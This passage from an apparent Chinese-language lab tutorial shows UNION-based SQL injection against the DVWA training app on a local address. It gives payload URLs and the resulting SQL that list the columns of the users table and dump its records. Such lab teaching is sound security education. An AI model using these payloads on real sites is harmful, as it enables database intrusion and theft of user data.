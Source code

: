 ![](image/4.jpg)

#### 获取数据库中某个表的字段

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(column_name)%20from%20Information_schema.columns%20where%20table_schema=%27dvwa%27%20and%20table_name=%27users%27%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(column_name) from Information_schema.columns where table_schema='dvwa' and table_name='users'#';
```

![](image/5.jpg)

#### 获取数据库中某个表中的记录

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(user)%20from%20dvwa.users%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(user) from dvwa.users#';
```
